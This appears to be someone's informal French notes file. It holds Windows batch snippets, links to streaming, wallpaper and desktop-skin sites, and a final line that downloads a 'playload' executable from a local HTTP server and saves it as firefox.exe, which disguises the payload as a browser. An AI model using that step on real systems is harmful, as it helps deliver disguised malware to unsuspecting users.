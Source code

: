 # Note personnel

pour enregistre le resulta d'un commade batch dans un variable

--> For /f %%c In ('command') Do (echo %%c)

faire un grep sur cmd

--> for /r %c in (gener.py) do if exist %c (echo %c)

# Site web Streaming

`https://wvw.papseries.net/`

# Site De telechargement de fond d'ecran

`https://wall.alphacoders.com/`

# Remainter Interactive Dock
`--> https://visualskins.com/`

# download the playload from the http server
wget "http://127.0.0.1:8000/playload.exe/" -OutFile firefox.exe

